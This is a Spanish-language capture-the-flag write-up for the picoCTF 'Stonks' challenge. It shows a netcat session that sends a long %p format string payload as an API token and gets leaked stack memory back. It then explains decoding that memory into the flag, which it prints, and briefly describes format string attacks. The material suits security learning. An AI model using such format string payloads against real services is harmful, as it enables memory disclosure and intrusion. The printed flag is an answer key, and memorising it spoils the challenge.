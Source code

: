 ```bash
Goodbye!
                                                                                                                
┌──(kali㉿kali)-[~/picoctf/b_exploitation/Stonks]
└─$ nc mercury.picoctf.net 27912
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Buying stonks with token:
0x9b163700x804b0000x80489c30xf7fb2d800xffffffff0x10x9b141600xf7fc01100xf7fb2dc7(nil)0x9b151800x80x9b163500x9b163700x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x326663310x306131300xffde007d0xf7fedaf80xf7fc04400x7275cc000x1(nil)0xf7e4fce90xf7fc10c00xf7fb25c00xf7fb20000xffde72780xf7e4068d0xf7fb25c00x8048eca0xffde7284(nil)0xf7fd4f090x804b0000xf7fb20000xf7fb2e200xffde72b80xf7fdad500xf7fb38900x7275cc000xf7fb20000x804b0000xffde72b80x8048c860x9b141600xffde72a40xffde72b80x8048be90xf7fb23fc(nil)0xffde736c0xffde73640x10x10x9b141600x7275cc000xffde72d0(nil)(nil)
Portfolio as of Tue May 16 19:03:25 UTC 2023


8 shares of ETJ
616 shares of N
113 shares of LX
1115 shares of JRCP
Goodbye!
```

>[!solution]
>Al analizar el código se concluye que el caso de la solución es muy parecido al reto anterior, por consecuencia se utilizaron distintos ataques de de formato de cadena, hasta que se consiguió el resultado al usar el `%p` que obtiene los valores de la pila de la computadora al momento de la ejecución del programa, se obtuvo varios caracteres en hexadecimal y al trabajar la cadena en "CyberChef", primero de hexadecimal a cadena de caracteres y despues con un Swap endianness,  se obtuvo la badera.

## Bandera
picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}

## Notas adicionales
>[!danger]
>**Format string attack**
>Se produce cuando los datos enviados de una cadena de entrada son evaluados como un comando por la aplicación. De este modo, el atacante podría ejecutar código, leer la pila o provocar un fallo de segmentación en la aplicación en ejecución, causando nuevos comportamientos que podrían comprometer la seguridad o la estabilidad del sistema.
